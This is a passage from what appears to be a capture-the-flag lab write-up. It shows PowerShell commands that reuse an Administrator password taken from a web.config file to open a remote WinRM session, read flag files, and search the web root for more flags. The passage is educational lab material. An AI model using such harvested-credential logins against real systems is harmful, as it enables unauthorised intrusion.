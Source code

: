 ```
        CredSSP = false
    DefaultPorts
        HTTP = 5985
        HTTPS = 5986
    TrustedHosts = [dead:babe::1001]
```

Then we'll log in using the credentials we found in web.config

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'EverybodyWantsToWorkAtP.O.O.' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('Administrator', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential

[[dead:babe::1001]]: PS C:\Users\Administrator> cd desktop
[[dead:babe::1001]]: PS C:\Users\Administrator\desktop> dir

    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/26/2018   5:29 PM             37 flag.txt


[[dead:babe::1001]]: PS C:\Users\Administrator\desktop> type flag.txt
POO{ff87c4fe10e2ef09...}
```

Another flag found: `POO{ff87c4fe10e2ef09...}`

### BackTrack flag

There's another flag hidden in the admin directory of the webserver inside the `iisstart.htm` page:

```
[[dead:babe::1001]]: PS C:\> get-childitem -recurse -path c:\inetpub | select-string -pattern "POO{"

inetpub\wwwroot\admin\iisstart.htm:4:Flag : POO{4882bd2ccfd4b53...}
inetpub\wwwroot\dev\304c0c90fbc6520610abbf378e2339d1\db\poo_connection.txt:6:Flag : POO{fcfb0767f5bd3cbc22f...}
inetpub\wwwroot\dev\dca66d38fd916317687e1390a420c3fc\db\poo_connection.txt:6:Flag : POO{fcfb0767f5bd3cbc22f...}

[[dead:babe::1001]]: PS C:\> type C:\inetpub\wwwroot\admin\iisstart.htm
"I can't go back to yesterday, because i was a different person then..."<br>
- Alice in Wonderland<br>
<br>
Flag : POO{4882bd2ccfd4b53...}
```
